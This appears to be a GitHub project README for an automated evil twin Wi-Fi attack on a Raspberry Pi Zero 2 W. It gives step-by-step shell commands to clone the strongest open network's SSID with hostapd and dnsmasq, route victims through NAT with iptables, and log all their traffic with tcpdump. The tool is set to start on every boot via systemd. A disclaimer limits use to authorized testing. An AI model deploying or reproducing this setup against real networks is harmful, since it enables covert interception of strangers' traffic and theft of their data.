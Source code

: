 # Evil Twin Wi-Fi Automation (Raspberry Pi Zero 2 W)

## **Overview**

This project automates the process of setting up an **Evil Twin Wi-Fi attack** using a **Raspberry Pi Zero 2 W**. The script:

1. **Scans for open Wi-Fi networks** using `iwlist` (as NetworkManager is disabled).
2. **Connects to the strongest open Wi-Fi** using `wpa_supplicant`.
3. **Clones the SSID and starts an Evil Twin AP** using `hostapd` and `dnsmasq`.
4. **Enables NAT & packet forwarding** to route Evil Twin traffic through the real network.
5. **Logs captured network traffic** using `tcpdump` for later analysis.
6. **Runs automatically on boot** using `systemd`.

**Designed for authorized security research & penetration testing only!**

---

## **⚠️ Legal Disclaimer**

This tool is for **educational and authorized testing purposes only**. Unauthorized interception of network traffic is **illegal** in many jurisdictions. Only use this on **networks you own or have explicit permission to test**.

---

## **Hardware & Software Requirements**

### **🔹 Hardware**

- **Raspberry Pi Zero 2 W** (or any Raspberry Pi with Wi-Fi capability)
- **USB Wi-Fi adapter** (Recommended: for separate AP & STA interfaces)
- **MicroSD Card** (Minimum 8GB recommended)
- **Power supply** (5V, 2A recommended)

### **🔹 Software**

- **Operating System**: Raspberry Pi OS (Debian-based)
- **Disabled**: `NetworkManager` (uses `dhcpcd` for networking)
- **Installed Tools**:
  - `hostapd` (Creates the Evil Twin AP)
  - `dnsmasq` (Handles DHCP for the AP clients)
  - `iwlist` (Scans for networks without `nmcli`)
  - `tcpdump` (Captures traffic from connected clients)

---

## **Installation & Setup**

### **1️⃣ Install Dependencies**

First, update the system and install required tools:

```bash
sudo apt-get update && sudo apt-get upgrade -y
sudo apt-get install -y hostapd dnsmasq iw wpa_supplicant iptables tcpdump
```

### **2️⃣ Clone the Repository**

```bash
git clone https://github.com/YourUsername/EvilTwinPi.git
cd EvilTwinPi
```

### **3️⃣ Enable Systemd Service**

To ensure the script runs automatically at boot:

```bash
sudo cp systemd/evil_twin.service /etc/systemd/system/
sudo systemctl daemon-reload
sudo systemctl enable evil_twin.service
sudo systemctl start evil_twin.service
```

### **4️⃣ Ensure SSH Access**

If you want to SSH into the Pi remotely:

```bash
sudo systemctl enable ssh
sudo systemctl start ssh
```

If your Pi is running as an AP, you can connect to its Wi-Fi and SSH into `192.168.50.1`.

---

## **How It Works**

### **1. Scanning for Open Wi-Fi Networks**

The script uses `iwlist` to scan for available open networks:

```bash
sudo iwlist wlan0 scan | grep -E 'ESSID|Encryption|Quality'
```

- Filters **unencrypted** (`Encryption key:off`) networks
- Selects the **strongest signal** network

### **2. Connecting to Open Wi-Fi**

Once an open network is found, it uses `wpa_supplicant` to connect:

```bash
sudo wpa_supplicant -B -i wlan0 -c /etc/wpa_supplicant/wpa_supplicant.conf
sudo dhclient wlan0  # Get an IP address
```

### **3. Setting Up the Evil Twin AP**

- Writes a **custom `hostapd.conf`** to clone the SSID
- Starts `hostapd` to **broadcast the Evil Twin**
- Configures `dnsmasq` for **DHCP services**

### **4. Enabling NAT & Packet Forwarding**

```bash
sudo iptables -t nat -A POSTROUTING -o wlan0 -j MASQUERADE
sudo iptables -A FORWARD -i wlan1 -o wlan0 -j ACCEPT
```

### **5. Logging Captured Traffic**

- Captures **all packets** on the Evil Twin AP interface (`wlan1`)
- Saves `.pcap` files to `/var/log/evil_twin/`
- Runs in the background automatically:

```bash
sudo tcpdump -i wlan1 -w /var/log/evil_twin/capture_$(date +%Y%m%d_%H%M%S).pcap
```

---

## **Monitoring & Log Access**

### **1️⃣ Checking Logs in Real-Time**

```bash
tail -f /var/log/evil_twin/main.log
```

### **2️⃣ Viewing Captured Traffic**

If SSH’d in, analyze the `.pcap` logs with:

```bash
sudo tcpdump -r /var/log/evil_twin/capture_YYYYMMDD_HHMMSS.pcap
```

Or transfer files for deeper analysis in **Wireshark**:

```bash
scp pi@192.168.50.1:/var/log/evil_twin/*.pcap ~/local_folder/
```

### **3️⃣ Restarting Evil Twin Service**

If something fails, restart the service:

```bash
sudo systemctl restart evil_twin.service
```

---

## **Final Notes**

- **Be responsible** and use this for **ethical testing only**.
- **Test in a lab environment** before field use.
- **Secure your own network** by using WPA2/3 encryption to prevent similar attacks.

  **Stay safe and hack responsibly!**
